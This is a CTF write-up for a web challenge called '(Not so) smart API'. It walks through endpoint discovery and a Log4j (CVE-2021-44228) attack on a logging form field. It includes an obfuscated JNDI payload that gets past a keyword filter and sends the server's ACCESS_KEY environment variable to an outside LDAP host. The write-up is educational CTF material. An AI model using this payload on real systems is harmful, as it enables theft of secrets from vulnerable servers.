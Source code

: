 # (Not so) smart API
###### Web, Log4j


> You are mandated by Smart Transport & Logistics to test the latest API for their web service. One of these API points is used to obtain the access code to a storage facility. Recently, several thefts have occurred in this storage facility.
Discover the method used and get the access code to the warehouse (the flag).
Note: It is not necessary to have remote command execution to get the flag.
Challenge proposed by : AMOSSYS


#### TL;DR
* Find API endpoint
* Use Log4j attack to get API secret key (ACCESS_KEY)
* Get the flag using secret key

#### Challenge Discovery
By getting "swagger.json" file, we can easyli view wich endpoint are used by the API. (http://213.32.7.237:26241/api/swagger.json)

```The swagger.json file is a specification file that describes the REST APIs in accordance with the Swagger specification. The file describes details such as available endpoints, operations on each endpoint, input and output parameters for each operation, authentication methods, and other information. ```


That give us 2 endpoints:

* GET - /api/facility
` "description": "Return the acccess code to storage facility. User need to be authenticated. The server will compare the provided password encoded in base64 in the header X-API-Key with the one securely saved in environnement variable ACCESS_KEY."`

* POST - api/check 
`"description": "Check if the staff member is known.",`
`
"application/x-www-form-urlencoded": {
              "schema": {
                "type": "object",
                "properties": {
                  "nom": {
                    "type": "string"
                  },
                  "prenom": {
                    "type": "string"
                  }
                },
                "required": [
                  "nom",
                  "prenom"
                ]
`

So we can try to register a random user (`nom = a&prenom = a`)
```
curl -X POST http://213.32.7.237:27835/api/check -d "nom='a'&prenom='b'"
```
`Your are not in our database, we will Log your identity`
We learn that all our failed will be logged in the server.

#### Challenge Solve
As we know that every failed login will be logged, we can try to exploit log4j using `nom` or `prenom` attribut.

But we get 'Attack Detected' whenever we put `/` or `jdni`


thanks to : https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words

payload:
``` nom=${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}:${date:'/'}${date:'/'}log4shell.huntress.com:1389${date:'/'}hostname=${env:ACCESS_KEY}${date:'/'}9eb4a887-8176-4aaa-a6dd-83b96853d793}"&prenom="a" ```

After few seconds we get our ACCESS_KEY=`TEVfQ09OVEVYVEVfRVNUX0lOVEVSRVNTQU5U`

After that we just need to use this key in order to get the flag, using this endpoint: /api/facility
